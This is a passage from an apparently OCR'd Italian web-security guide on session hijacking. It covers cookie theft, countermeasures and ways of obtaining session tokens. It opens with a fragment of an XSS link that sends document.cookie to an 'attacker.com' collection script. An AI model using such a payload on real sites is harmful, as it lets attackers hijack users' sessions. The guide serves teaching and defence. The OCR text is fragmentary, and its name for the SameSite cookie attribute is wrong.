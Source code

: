 'http://attacker.com/stole.cgi?text=' + escape(document.cookie); returnfalse;">Click here!</a>

- L’id  di  sessione,  in  quanto  autenticato,    può  essere  utilizzato  per  effettuare  richieste  considerate  valide

- verso  il  server.  Le  modalità  attraverso  le  quali  è  possibile  sfruttare  gli  attributi  del  cookie  rubato  per

- assegnarli  alla  propria  sessione,  dipendono  dal  browser.  Alcune  estensioni,  come  ad  esempio

- “EditThsCookie” su Chrome, permettono di modificare agevolmente il cookie che si sta utilizzando.

- Contromisure

- Per  garantire  la  sicurezza,  sarebbe  opportuno  evitare  di  utilizzare  i  cookie,  ma  questo  non  è  attuabile

- poiché, nel corso del tempo, i cookie  sono diventati sempre più indispensabili nella  memorizzazione dei

- dati.  Per  impedire  il  furto  dei  cookie  è  quindi  necessario,  farli  viaggiare  attraverso  connessioni  https

- crittografate. Un’ulteriore protezione può essere garantita impostando l’attributo HttpOnly a true. Questa

- operazione impone che l’accesso al cookie solo via protocollo http, e non tramite uno script client. Google

- Chome, nella release 51, ha introdotto l’attributo sameorigin, che garantisce che il cookie venga trasmesso

- solo nelle chiamate all’interno dello stesso dominio.

- 6.2.1.2  Token di sessione

- Un token è un identificativo che correla univocamente una sessione ad un utente. Questi valori una volta

- generati  vengono  collocati  all’interno  del  cookie  o  propagati  attraverso  l’URL  per  fare  in  modo  che

- l’applicazione  riconosca  con  esattezza  l’utenza  e  determini,  in  base  ai  suoi  privilegi,  le  azioni  che  può  o

- meno svolgere sul portale. Un aggressore può appropriarsi di un token di sessione in almeno tre modi:

- 

creandolo sul momento (ad esempio quando il meccanismo di generazione del token è banale, nonsi basa su valori randomici ed è facilmente ricostruibile a partire dal nome dell’utente);

-   quando propagato tramite URL, forzando l’utente a rivelarlo con un copia e incolla (ad esempio con

tecniche di Social Engineering);

indovinandolo  attraverso  tecniche  di  Brute  Forcing.  Ciò  è  possibile  quando  l’identificativo  dellasessione viene generato con valori non randomici o utilizzando una bassa entropia.
